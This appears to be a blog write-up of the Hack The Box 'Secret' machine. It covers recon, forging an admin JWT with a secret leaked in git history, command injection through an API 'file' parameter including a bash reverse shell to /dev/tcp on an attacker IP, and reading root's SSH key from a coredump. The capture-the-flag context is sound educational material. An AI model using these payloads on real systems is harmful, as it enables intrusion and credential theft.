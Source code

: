 ```yaml
---
title: htb secret
author: Yuchao
date: 2021-10-30 00:00:00 +0000
categories: [sec]
tags: [htb, 0xdf, ippsec, express, nodejs, python, pyjwt, dotenv, jwt, nmap, feroxbuster, curl, git, privesc, c, coredump]
mermaid: true
---
```


## nmap
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.11.120
nmap -p 22,80,3000 -sCV -oA scans/nmap-tcpscripts 10.10.11.120
```

## See 80, 3000 port run the same thing:
1. maybe 80 is a reverse proxy of 3000.
2. maybe one developer version, one production version.
3. some misconfiguration

## Directory discovery
```bash
feroxbuster -u http://10.10.11.120
```

## use API by document
```bash
# /api/user/register
curl -d '{"name":"0xdf0xdf","email":"dfdfdfdf@secret.com","password":"password"}' -X POST http://10.10.11.120/api/user/register -H 'Content-Type: Application/json'
# /api/user/login
curl -d '{"email":"dfdfdfdf@secret.com","password":"password"}' -X POST http://10.10.11.120/api/user/login -H 'Content-Type: Application/json'
```
- -d data
- -X method
- -H header
- It supports these protocols: DICT, FILE, FTP, FTPS, GOPHER, GOPHERS, HTTP, HTTPS, IMAP, IMAPS, LDAP,  LDAPS,  MQTT,  POP3,  POP3S, RTMP,  RTMPS,  RTSP, SCP, SFTP, SMB, SMBS, SMTP, SMTPS, TELNET or TFTP.
- after the request, got a JWT.

## nginx
- port 80 is same with port 3000. 3000 does not have NGINX.
- suspect NGINX is just there to proxy for Express.

## analysis the source
- nodejs express application

#### find Token generation
``` javascript
// Dotenv loads environment variables from a .env file into process.env
const dotenv = require('dotenv')
dotenv.config();
```
{: .nolineno file="index.js" }

``` javascript
// create jwt
const jwt = require("jsonwebtoken");
const token = jwt.sign({ _id: user.id, name: user.name , email: user.email}, process.env.TOKEN_SECRET )
res.header('auth-token', token).send(token);
const verified = jwt.verify(token, process.env.TOKEN_SECRET);
```
{: .nolineno file="/routes/auth.js" }

#### find git information
```bash
git log --oneline
git show 67d8da7
```
get the TOKEN_SECRET from git old version

#### find some api need "admin"`s token
- like ``` /api/priv ``` and ``` /api/logs ```

## Forge JWT
#### decode
``` pip3 install pyjwt ```
``` python
import jwt
token='eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTc4MjUzMzJjMmJhYjA0NDVjNDg0NjIiLCJuYW1lIjoiMHhkZjB4ZGYiLCJlbWFpbCI6ImRmZGZkZmRmQHNlY3JldC5jb20iLCJpYXQiOjE2MzUyNjM4Mjh9.rMfMsdYkfSbl4hr1RJFwY3qWfrA3LSWVlzUON_9EW_A'
secret='gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE'
# decode
jwt.decode(token, secret, algorithms=["HS256"])
# result-> {'_id': '617825332c2bab0445c48462', 'name': '0xdf0xdf', 'email': 'dfdfdfdf@secret.com', 'iat': 1635263828}
```
#### Create Token
```python
j = jwt.decode(token, secret, algorithms=["HS256"])
j['name'] = 'theadmin'
jwt.encode(j, secret, algorithm="HS256")
# result-> eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJfaWQiOiI2MTc4MjUzMzJjMmJhYjA0NDVjNDg0NjIiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImRmZGZkZmRmQHNlY3JldC5jb20iLCJpYXQiOjE2MzUyNjM4Mjh9.cRgg1KkYXYSwz1xpknTFWTHnx8D-7UMewMubwAGsvQ8
```

#### try to use
```bash
curl -s 'http://10.10.11.120/api/priv' -H "auth-token: {token}" | jq .
```

## Command Injection
```javascript
if (name == 'theadmin'){
    const getLogs = `git log --oneline ${file}`;
    exec(getLogs, (err , output) =>{
```
try to manituplate to -> ``` git log --oneline; [any command] ```
``` curl -s 'http://10.10.11.120/api/logs?file=;ping+-c+1+10.10.14.6' -H "auth-token: {token}" | jq -r . ```
attacker machine -> ``` sudo tcpdump -ni tun0 icmp ```

Force to use G (Get) method.
- -d,  --data,  --data-binary  or --data-urlencode to be used in an HTTP GET request instead of the POST request.
```bash
curl -s -G 'http://10.10.11.120/api/logs' \
--data-urlencode 'file=/dev/null;id' \
-H "auth-token: {token}" \
| jq -r .
```

#### reverse shell
```bash
curl -s -G 'http://10.10.11.120/api/logs' \
--data-urlencode "file=>/dev/null;bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'" \
-H "auth-token: {token}" \
| jq -r .
```

attacker`s machine: ```  nc -lnvp 443 ```

## privesc

#### get information from coredump.

an suid program
```c
filecount(path, summary);
// source code of "count" program
// drop privs to limit file write
setuid(getuid());
// Enable coredump generation
prctl(PR_SET_DUMPABLE, 1);
printf("Save results a file? [y/N]: ");
res = getchar();
```
{file="code.c" }

- ```  ps auxww | grep count ``` find pid of the program
- background the program at getchar()
- find file handler in ``` /proc/[pid]/fd ```
- find "/root/.viminfo" as input file path can be readable
- as we can not access "/root", we can not ``` cat /root/.viminfo ```
- but we can read .viminfo from file handler
- We can get the SSH key from it.

#### another way, from Crash Dump

- Because Enabled coredump generation
- When a program crashes, the system stores the crash dump files in ``` /var/crash ```
- input ``` /root/.ssh/id_rsa ``` as path input
- ```  kill -l ``` list kill signals
- ```  kill -SIGSEGV {pid} ``` send a segmentation fault
- ``` /var/crash$ apport-unpack _opt_count.1000.crash /tmp/0xdf ``` decompress the dump into a given directory
- ``` strings -n 30 CoreDump ```
- then get the SSH key from it.
